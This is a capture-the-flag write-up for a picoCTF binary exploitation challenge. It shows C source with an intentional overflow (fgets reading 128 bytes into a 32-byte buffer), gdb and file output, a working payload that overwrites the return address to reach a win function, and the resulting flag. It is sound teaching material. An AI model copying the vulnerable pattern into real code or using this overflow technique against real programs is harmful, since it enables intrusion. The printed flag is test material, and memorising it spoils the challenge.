


## Description
The developer has learned their lesson from unsafe input functions and tried to secure the program by using `fgets()`. Unfortunately, they didn’t use it correctly. Can you still find a way to read the flag?

This is another standard Binary Overflow challenge by `YAHAYA MEDDY`.

This challenge is a prequel to another called [Echo Escape 1](../echo-escape-1)

## Solution

This is a fairly basic Binary Exploitation challenge, here is the source code provided:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "r");
    if (!fp) {
        perror("[!] Could not open flag.txt");
        exit(1);
    }

    char flag[128];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fflush(stdout);
    fclose(fp);
}

void vuln() {
    char buf[32];  

    printf("Enter the secret key: ");
    fflush(stdout);

    fgets(buf, 128, stdin);

    printf("You entered:, %s\n", buf);
}

int main() {
    vuln();
    puts("Goodbye!");
    return 0;
}
```

As can be seen there is a `win` function that outputs the flag, and there is a `vuln` function which accepts `128` bytes of input into a `32` byte long buffer. So this is very similar to the first challenge of this series.

We just need to know if it is a 32-bit or a 64-bit binary:
```bash
$ file vuln 
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=3a646e72fdf5436055451f662e3d643b020f7a9e, for GNU/Linux 3.2.0, not stripped
```

It's a 32-bit binary, so the pointers are 4 bytes (32 bits), and quickly opening it up in ghidra to check the stack reveals:


This shows that the `local_2c` variable, which is the name ghidra gives to the `buf` variable is at an offset of `0x2c`, or `44`. So to overwrite the return address, there must be 44 bytes of junk data before 4 bytes of memory address data.

So lets find the memory address of the `win` function with `gdb`:

```bash
$ gdb vuln
GNU gdb (Debian 17.1-3) 17.1
Copyright (C) 2025 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) p win
$1 = {<text variable, no debug info>} 0x8049276 <win>
```

And using the memory address of `0x8049276` we can craft a payload and get the flag:

```bash
$ echo "12345678901234567890123456789012345678901234\x76\x92\x04\x08" | nc dolphin-cove.picoctf.net 55547 
Enter the secret key: You entered:, 12345678901234567890123456789012345678901234v\ufffd

Flag: picoCTF{fgets_0v3rfl0w42_79ccc1c5}
```



We got the flag `picoCTF{fgets_0v3rfl0w42_79ccc1c5}`!